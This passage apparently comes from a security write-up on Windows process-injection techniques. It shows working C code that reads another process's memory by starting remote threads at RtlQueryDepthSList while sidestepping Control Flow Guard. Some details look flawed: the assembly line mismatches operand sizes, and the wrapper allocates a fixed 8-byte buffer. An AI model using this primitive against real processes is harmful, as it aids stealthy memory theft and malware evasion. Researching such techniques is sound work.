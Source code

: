 GetExitCodeThread Definition:    
```
BOOL GetExitCodeThread(
  HANDLE  hThread,
  LPDWORD lpExitCode
);
```
   
This was a blocking point on finding the remote memory address, so I tried to tackle the Read primitive in case it could help me approach this difficulty and somehow finding the address.  
Like I mentioned earlier, avoiding CFG was tough, so it took me a lot of time to go through potential avenues for finding rop gadgets to achieve a read process memory operation but after a while I found something better than a rop gadget; I found an existing function called RtlQueryDepthSList.  
  
RtlQueryDepthSList Definition (This is my definition, not MSDN's):  
```
DWORD RtlQueryDepthSList(
  PVOID addressToRead
);
```
  
RtlQueryDepthSList Assembly:  
```
mov eax, word ptr [rcx]
ret;
```
  
RtlQueryDepthSList takes one argument of the memory you want to read, but only read 2 bytes and then returns 4 back. Since RtlQueryDepthSList can get us 2 bytes at a time, it is not the most optimal situation, ideally we would need something that would read a DWORD to create less threads and read remote memory. By looping and iterating 2 bytes at the memory we want to read though we can successfully achieve what we need.  
  
Wrapper created for read primitive:  
```
unsigned char* ReadRemoteMemory(HANDLE hProc, LPVOID addrOf, int sizeofVal) 
{
	unsigned char* readBytes = (unsigned char*)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 8);
	DWORD dwDataLength = sizeofVal;
	for (DWORD i = 0; i < dwDataLength; i = i + 2)
	{
		HANDLE hThread = NULL;
		NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, hProc, RtlQueryDepthSList, (ULONG_PTR*)((BYTE*)addrOf + i), FALSE, NULL, NULL, NULL, NULL);
		DWORD ExitCode = 0;
		NtWaitForSingleObject(hThread, FALSE, NULL);
		GetExitCodeThread(hThread, &ExitCode);
		if (dwDataLength - i == 1)
		{
			CustomCopy((char*)readBytes + i, (const void*)&ExitCode, 1);
		}
		else
		{
			CustomCopy((char*)readBytes + i, (const void*)&ExitCode, 2);
		}
	}
	return readBytes;
}

```  
